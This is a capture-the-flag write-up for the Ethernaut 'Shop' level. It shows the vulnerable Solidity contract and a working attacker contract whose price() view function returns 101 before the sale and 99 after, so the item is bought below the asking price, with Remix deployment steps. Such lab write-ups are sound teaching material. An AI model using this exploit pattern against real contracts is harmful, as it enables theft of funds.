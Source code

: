 # 21 Shop

```
Сan you get the item from the shop for less than the price asked?

Things that might help:
Shop expects to be used from a Buyer
Understanding restrictions of view functions
```
####  code
```

// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

interface Buyer {
  function price() external view returns (uint);
}

contract Shop {
  uint public price = 100;
  bool public isSold;

  function buy() public {
    Buyer _buyer = Buyer(msg.sender);

    if (_buyer.price() >= price && !isSold) {
      isSold = true;
      price = _buyer.price();
    }
  }
}


```




#### Start 


### (1) `get the item from the shop for less than the price asked`

We need to focus code on the part changes parameter `price`

```
if (_buyer.price() >= price && !isSold) {
      isSold = true;
      price = _buyer.price();
    }
```

which must pass conditions  `if (_buyer.price() >= price && !isSold) `

If we look closely, we can see that `_buyer` is an externall contract which we can attack from here.

We need to create a contract where the first call to `_buyer.price()` must be >= 100  and the second call must be < 100

how do we do that ?

.

.

.


.

We can see  in `if` the variable value has been changed  `isSold = true;` We can use this as a reference when 

the first `_buyer.price()` call has passed.

#### This is the code I used 
```

// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

interface Shop  {
	function buy() external;
    function isSold() external view returns (bool);
}


contract AtkShop {

    Shop public target ;

    constructor (address _target) {
      target = Shop(_target);
    }


    function price() external view returns (uint256){
     if( target.isSold() ){
        return 99;
      } else {
        return  101;
      }
    
    }

    function callBuy() external {
        target.buy();
    }


    
}
```


- ` constructor (address _target) `

    This constructor  set  address target  to attack
    
    input parameters   `_target` is address contract Shop      

- ` function price() external view returns (uint256)`

    This function when  isSold == false will return  101 and if isSold == true  will return  99

- ` function callBuy() external `

    This function will call  `function buy() public` in contract Shop


Use the remix deploy contract `AtkShop ` 

Call `function callBuy() external `  and confirm transaction 


Click button Submit instance and confirm transaction 

# !!! we passed !!!

